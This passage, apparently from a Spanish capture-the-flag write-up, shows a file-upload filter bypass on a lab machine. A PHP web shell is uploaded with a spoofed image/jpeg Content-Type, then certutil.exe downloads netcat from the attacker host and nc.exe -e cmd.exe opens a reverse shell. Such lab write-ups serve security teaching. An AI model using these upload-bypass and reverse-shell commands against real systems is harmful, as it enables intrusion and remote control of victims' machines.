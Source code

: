<img src="https://i.imgur.com/TZHUiBt.png" width=700>

Como vemos tendremos distintos campos delimitados en los datos de la petición. Nos centraremos en el que contiene la foto, será este el campo en el que intentaremos insertar código PHP.

Con el fin de bypassear algún tipo de filtro que pueda contener el servidor web para la subida fraudulenta de archivos, mantendremos la cabecera **Content-Type** como **image/jpeg**. El nombre del archivo lo cambiaremos por uno con extensión PHP y el contenido de la imagen la cambiaremos por código PHP que nos permita ejecutar comandos a nivel de sistema en la máquina víctima:

<img src="https://i.imgur.com/jEzrG68.png" width=700>

Recordando el proceso de fuzzing que le hemos aplicado al servidor web, contamos con un directorio **images**, este directorio podría ser en el que se encuentran las imágenes de los usuarios y en este caso nuestro código PHP, por lo que procederemos a examinarlo.

Nos encontraremos con nuestro archivo **test.php** por lo que procederemos a visualizarlo y comprobar si tenemos ejecución remota de comandos mediante el parámetro **cmd**:

<img src="https://i.imgur.com/SOkeAvd.png" width=700>

Veremos que tenemos ejecución remota de comandos como el usuario phoebe.

<br>

### Reverse shell
Trataremos de convertir esta web shell en una reverse shell. Lo primero que haremos será descargar el binario de [Netcat](http://netcat.sourceforge.net/) para Windows y montar un servidor HTTP que contenga el mismo. 

Desde el navegador procederemos a transferir el binario a la máquina víctima, para poder ejecutarlo y conseguir una reverse shell. Para ello usaremos **certutil.exe**:

```http
http://10.10.10.239/Images/test.php?cmd=certutil.exe%20-f%20-split%20-urlcache%20http://10.10.15.1/nc.exe
```

<img src="https://i.imgur.com/TrVtHqu.png" width=700>

Una vez tenemos el binario de [Netcat](http://netcat.sourceforge.net/) en la máquina víctima procederemos a enviarnos una reverse shell. Para ello, lo primero que haremos será ponernos en escucha por el puerto 443 en nuestra máquina:

```bash
nc -nlvp 443
```

En el navegador mediante el binario que acabamos de transferir:

```http
http://10.10.10.239/images/test.php?cmd=nc.exe%20-e%20cmd.exe%2010.10.15.1%20443
```

Obtendremos una reverse shell como el archivo phoebe:

<img src="https://i.imgur.com/GJs7fni.png" width=700>
